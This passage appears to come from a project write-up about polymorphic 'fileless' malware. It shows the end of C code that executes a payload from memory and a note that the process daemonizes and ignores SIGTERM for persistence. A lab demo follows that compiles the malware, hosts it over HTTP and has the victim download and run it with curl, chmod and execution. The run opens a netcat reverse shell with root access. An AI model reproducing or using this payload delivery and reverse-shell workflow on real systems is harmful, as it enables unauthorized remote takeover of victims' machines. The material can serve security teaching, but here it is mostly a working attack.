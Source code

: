 ```c
    int (*ret)() = (int(*)())mem;
    ret();

    // Free the memory
    if (munmap(mem, sizeof(plain)) == -1) {
        perror("munmap");
        return 3;
    }

    return 0;
}
```

notice that we also made our process run in the background
by daemonizing and ignore `SIGTERM` to make it more persistent.

<br>

***

## Demo

***

A demo using the docker containers we have open can be done as follows:

1. Mallory generates a new form of the malware using `# python3 engine.py`
2. Mallory compiles with `# gcc -o fileless fileless.c zmalware.h` creating the `fileless` executable.
3. Mallory listens for connection, say with [netcat](https://en.wikipedia.org/wiki/Netcat):
```
# nc -lvp 443
listening on [any] 443 ...
```
  - `l` tells netcat to be in "listen" mode
  - `v` is for "verbose" mode and
  - `p` is to specify the port we are listening on
4. Mallory hosts the malware
```
/shared# python3 -m http.server 80 --bind 10.0.0.3
```
5. Alice downloads and runs the malware
```
/home/tmp# curl http://10.0.0.3/fileless -o fileless
/home/tmp# chmod +x fileless
/home/tmp# ./fileless
```

As soon as Alice runs the binary, we notice that the terminal where Mallory was listening using netcat connects to Alice's host

```
connect to [10.0.0.3] from alice.polymal_internal [10.0.0.2] 44640
```

and Mallory can run commands. Since Alice ran the program with root privileges we have

```
whoami
root
```

Mallory now has root access to Alice's machine.

